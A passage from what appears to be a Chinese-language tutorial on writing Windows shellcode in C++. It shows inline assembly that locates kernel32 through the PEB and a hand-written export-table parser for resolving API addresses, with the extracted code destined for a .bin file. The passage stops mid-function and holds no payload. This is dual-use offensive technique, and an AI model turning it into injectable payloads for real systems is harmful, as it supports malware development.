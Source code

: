 a_start.cpp

> 利用两函数做差就可以得到ShellcodeEnrtry的代码
（ShellcodeStart – ShellcodeEnd = getKernel32+getProcAddress+ShellcodeEntry）
，最后通过0.entry.cpp写入到bin文件

```
#include &lt;windows.h&gt;
#include "header.h"
__declspec(naked) void ShellcodeStart()
`{`
    __asm
    `{`
        jmp ShellcodeEntry
    `}`
`}`

__declspec(naked) DWORD getKernel32()
`{`
    __asm
    `{`
        mov eax, fs:[0x30]
        mov eax, [eax + 0xc]
        mov eax, [eax + 0x14]
        mov eax, [eax]
        mov eax, [eax]
        mov eax, [eax + 0x10]
        ret
    `}`
`}`

FARPROC getProcAddress(HMODULE hMouduleBase)
`{`
    //由之前找到的DllBase来得到DOS头的地址
    PIMAGE_DOS_HEADER lpDosHeader =
        (PIMAGE_DOS_HEADER)hMouduleBase;

    //找到 IMAGE_NT_HEADERS 的所在
    PIMAGE_NT_HEADERS32 lpNtHeader =
        (PIMAGE_NT_HEADERS)((DWORD)hMouduleBase + lpDosHeader-&gt;e_lfanew);

    if (!lpNtHeader-&gt;OptionalHeader//检查可选文件头的导出表大小是否 不为空
        .DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size)
    `{`
        return NULL;
    `}`
    if (!lpNtHeader-&gt;OptionalHeader//检查可选文件头的导出表的偏移是否 不为空
        .DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress)
    `{`
        return NULL;
    `}`


    PIMAGE_EXPORT_DIRECTORY lpExport = //获得_IMAGE_EXPORT_DIRECTORY对象
        (PIMAGE_EXPORT_DIRECTORY)((DWORD)hMouduleBase + (DWORD)lpNtHeader-&gt;OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    //下面变量均是RVA,要加上hModuleBase
    PDWORD lpdwFunName =
        (PDWORD)((DWORD)hMouduleBase + (DWORD)lpExport-&gt;AddressOfNames);
    PWORD lpword =
        (PWORD)((DWORD)hMouduleBase + (DWORD)lpExport-&gt;AddressOfNameOrdinals);
    PDWORD lpdwFunAddr =
        (PDWORD)((DWORD)hMouduleBase + (DWORD)lpExport-&gt;AddressOfFunctions);
    //DWORD   AddressOfFunctions;      指向输出函数地址的RVA
```